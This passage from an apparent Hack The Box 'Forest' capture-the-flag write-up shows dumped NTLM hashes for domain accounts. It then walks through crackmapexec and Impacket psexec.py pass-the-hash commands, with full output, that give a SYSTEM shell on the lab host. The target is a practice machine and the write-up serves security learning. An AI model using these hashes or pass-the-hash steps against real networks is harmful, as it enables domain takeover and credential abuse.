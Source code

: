 ```bash
htb.local\SM_7c96b981967141ebb:1130:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_c75ee099d0a64c91b:1131:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_1ffab36a2f5f479cb:1132:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\HealthMailboxc3d7722:1134:aad3b435b51404eeaad3b435b51404ee:4761b9904a3d88c9c9341ed081b4ec6f:::
htb.local\HealthMailboxfc9daad:1135:aad3b435b51404eeaad3b435b51404ee:5e89fd2c745d7de396a0152f0e130
```



## Root shell

With the administrator hash, just  run psexec.py to get a shell:

```bash
dumbland () hgfs/hackthebox/forest :: crackmapexec smb 10.10.10.161 -u Administrator -H 32693b11e6aa90eb43d32c72a07ceea6
SMB         10.10.10.161    445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:HTB) (signing:True) (SMBv1:True)
SMB         10.10.10.161    445    FOREST           [+] HTB\Administrator 32693b11e6aa90eb43d32c72a07ceea6 (Pwn3d!)
```

```bash
dumbland () hgfs/hackthebox/forest :: ~/pentest/impacket/examples/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 administrator@10.10.10.161        1 ↵
Impacket v0.9.21-dev - Copyright 2019 SecureAuth Corporation

[*] Requesting shares on 10.10.10.161.....
[*] Found writable share ADMIN$
[*] Uploading file sodACiUM.exe
[*] Opening SVCManager on 10.10.10.161.....
[*] Creating service JToR on 10.10.10.161.....
[*] Starting service JToR.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>cd c:\Users\Administrator\Desktop

c:\Users\Administrator\Desktop>whoami
nt authority\system

c:\Users\Administrator\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is E8B0-D68E

 Directory of c:\Users\Administrator\Desktop

09/23/2019  02:15 PM    <DIR>          .
09/23/2019  02:15 PM    <DIR>          ..
09/23/2019  02:15 PM                32 root.txt
               1 File(s)             32 bytes
               2 Dir(s)  31,106,588,672 bytes free

c:\Users\Administrator\Desktop>
```
